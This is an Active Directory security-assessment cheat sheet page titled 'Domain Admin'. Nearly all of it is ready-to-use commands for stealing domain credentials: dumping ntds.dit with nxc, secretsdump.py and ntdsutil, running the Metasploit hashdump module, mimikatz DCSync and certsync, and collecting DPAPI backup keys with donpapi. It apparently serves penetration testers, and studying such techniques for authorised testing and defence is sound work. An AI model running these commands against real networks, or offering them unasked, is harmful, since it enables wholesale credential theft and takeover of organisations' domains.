 ```yaml
---
title: "Domain Admin"
description: "Domain Admin techniques and commands for Active Directory security assessment."
---
```

# Domain Admin
## Dump ntds.dit *Lateral move || Crack hash*{: .highlight}
- `nxc smb <dcip> -u <user> -p <password> -d <domain> --ntds`
- `secretsdump.py '<domain>/<user>:<pass>'@<ip>`
- `ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q`
  - `secretsdump.py -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract`
- `msf> windows/gather/credentials/domain_hashdump`
- `mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator`
- `certsync -u <user> -p '<password>' -d <domain> -dc-ip <dc_ip> -ns <name_server>`

## Grab backup Keys *Credentials*{: .highlight}
- `donpapi collect - H ':<hash>' <domain>/<user>@<ip_range> -t ALL --fetch-pvk`